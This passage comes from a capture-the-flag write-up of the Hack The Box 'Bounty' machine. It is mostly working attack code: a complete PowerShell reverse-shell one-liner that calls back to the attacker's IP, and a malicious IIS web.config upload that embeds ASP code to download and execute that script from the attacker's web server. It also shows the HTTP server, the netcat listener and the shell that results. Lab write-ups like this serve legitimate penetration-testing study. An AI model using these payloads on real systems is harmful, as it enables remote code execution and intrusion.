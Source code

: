 ```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.17.28",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Now, I create another version of the web.config file that will download and execute the script:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%
Set shell = CreateObject("WScript.Shell")
Set cmd = shell.Exec("cmd /c powershell -c IEX (New-Object Net.Webclient).DownloadString('http://10.10.17.28/shell.ps1')")
o = cmd.StdOut.Readall()
Response.write(o)
%>

```

Upload the file and start a netcat listener. Before opening the file, I need to start a webserver:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/bounty]
└─$ sudo python3 -m http.server 80                    
[sudo] password for user: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Now, I can visit the webpage: [`http://10.10.10.93/UploadedFiles/web.config`](http://10.10.10.93/UploadedFiles/web.config):

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/bounty]
└─$ nc -lvnp 4444     
listening on [any] 4444 ...
connect to [10.10.17.28] from (UNKNOWN) [10.10.10.93] 49160

PS C:\windows\system32\inetsrv> whoami
bounty\merlin
```
